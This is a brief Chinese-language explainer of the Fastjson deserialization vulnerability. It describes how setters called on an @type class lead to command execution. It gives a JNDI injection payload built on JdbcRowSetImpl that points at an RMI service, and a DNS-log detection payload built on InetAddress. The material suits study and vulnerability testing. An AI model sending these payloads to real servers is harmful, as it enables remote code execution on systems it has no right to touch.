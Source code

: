 Ref：https://zhuanlan.zhihu.com/p/99075925

## Fastjson反序列化漏洞

### 原理

反序列化 @type 指定的类时，指定类的 setter 或 getter 被调用导致的命令执行。

漏洞触发和 `setter` 与 `getter` 有关，那么利用就是找那些在 `setter` 和 `getter` 中有敏感方法的类。

### 利用

JNDI 注入：Java命名和目录接口（JNDI）是一种Java API，类似于一个索引中心，它允许客户端通过name发现和查找数据和对象。这些对象可以存储在不同的命名或目录服务中，例如远程方法调用（RMI），轻型目录访问协议（LDAP）或域名服务（DNS）。

`{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/POC", "autoCommit":true}`

原理是 `com.sun.rowset.JdbcRowSetImpl` 这个类在设置 `autoCommit` 的 setter 时会调用 connect 方法去连接 `dataSourceName` 指定的 jdbc 服务。 JNDI 常用的有 RMI 和 LDAP 服务。

DNS log：

```text
{"@type":"java.net.InetAddress","val":"example.com"}
```

原理是 `java.net.InetAddress` 这个类在实例化时会尝试做对 `example.com` 做域名解析，这时候可以通过 dns log 的方式得知漏洞是否存在了。